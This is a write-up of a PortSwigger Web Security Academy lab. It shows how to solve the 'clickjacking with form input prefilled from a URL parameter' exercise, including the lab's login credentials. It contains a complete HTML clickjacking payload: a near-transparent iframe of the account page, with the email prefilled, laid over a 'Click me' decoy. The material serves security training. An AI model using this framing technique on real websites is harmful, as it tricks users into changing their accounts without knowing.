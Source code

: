 
# Clickjacking with form input data prefilled from a URL parameter

This lab extends the basic clickjacking example in Lab: Basic clickjacking with CSRF token protection. The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.

To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: wiener:peter

Note: The victim will be using Chrome so test your exploit on that browser.

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.


---------------------------------------------

References: 

- https://portswigger.net/web-security/clickjacking



![img](images/Clickjacking%20with%20form%20input%20data%20prefilled%20from%20a%20URL%20parameter/1.png)

---------------------------------------------

If the user profile is accessed with the parameter “email”, the email field gets populated:



![img](images/Clickjacking%20with%20form%20input%20data%20prefilled%20from%20a%20URL%20parameter/2.png)


So we can execute the attack with a payload like this:

```
<head>
	<style>
		#target_website {
			position:relative;
			width:600px;
			height:600px;
			opacity:0.1;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:600px;
			height:600px;
			z-index:1;
			}
		#btn {
			position:absolute;
			top:440px;
			left:70px;
		}
	</style>
</head>
<body>
	<div id="decoy_website">
	<button id="btn">Click me</button>
	</div>
	<iframe id="target_website" src="https://0a11003f031a6dc080b6033a0090001e.web-security-academy.net/my-account?email=test@test.com">
	</iframe>
</body>
```



![img](images/Clickjacking%20with%20form%20input%20data%20prefilled%20from%20a%20URL%20parameter/3.png)